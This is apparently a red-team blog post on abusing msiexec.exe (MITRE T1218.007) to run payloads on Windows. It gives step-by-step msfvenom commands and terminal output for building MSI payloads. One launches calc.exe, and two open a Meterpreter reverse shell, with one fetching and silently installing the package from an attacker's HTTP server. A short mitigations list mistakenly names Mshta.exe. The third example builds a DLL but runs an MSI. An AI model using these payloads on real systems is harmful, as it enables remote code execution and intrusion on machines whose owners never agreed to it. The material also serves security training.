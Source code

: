 ```yaml
---
title: MSIEXEC
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: []  
---
```


# MITRE
- ID : `T1218.007`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSIEXEC

***Msiexec.exe*** Is a command-line utility that Provides the means to install, modify, and perform operations on Windows Installer from the command line.Adversaries may abuse msiexec.exe to proxy execution of malicious payloads.

# Exploitations

## Invoke Calculator

Generate payload using msfvenom, transfer the payload to your windows machine, then execute the below command to invoke calculator.

*generating payload*

> `msfvenom -p windows/exec CMD=calc.exe -f msi > [file_name.msi]`

```bash
┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/exec CMD=calc.exe -f msi > cmd.msi
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of msi file: 159744 bytes

```

Command
> `msiexec /q /i "[local_msi_file]"`

*executing payload to invoke calculator*

```batch
msiexec /q /i "C:\Users\IEUser\Desktop\calc.msi"
```

![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexeccalc.png)

## Execute Local MSI file To Get Meterpreter Shell

To get meterpreter shell, you need to generate meterpreter payload using msfvenom, transfer it to windows machine, setup your metasploit listener, then execute the below command.

*generating meterpreter payload*

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f msi -o [file_name.msi]`

```bash

┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 –f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
```
Command
> `msiexec /q /i "[local_msi_file]"`

*executing msiexec to get reverse shell*
```batch
msiexec /q /i "C:\Users\IEUser\Desktop\rev.msi"
```
![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexecwin.png)

*setting metasploit listener, getting reverse shell*

![msiexecmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

## Execute Remote MSI file To Get Meterpreter Shell

To get meterpreter shell, you need to generate meterpreter payload using msfvenom, host it on your server i.e `python -m http.server`, setup your metasploit listener, then execute the below command.

*generating payload*
```bash
┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 –f dll > rev.dll                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes

```
Command
> `msiexec /q /i "[file_url]"`

*executing msiexec to get reverse shell*
```batch
msiexec /q /i "http://10.42.0.1/rev.msi"
```
![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexecwinr.png)

*setting metasploit listener, getting reverse shell*

![msiexecmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Restrict execution of Msiexec.exe to privileged accounts or groups.

# References

- [https://attack.mitre.org/techniques/T1218/007/](https://attack.mitre.org/techniques/T1218/007/)
- [https://attack.mitre.org/mitigations/M1042/](https://attack.mitre.org/mitigations/M1042/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)
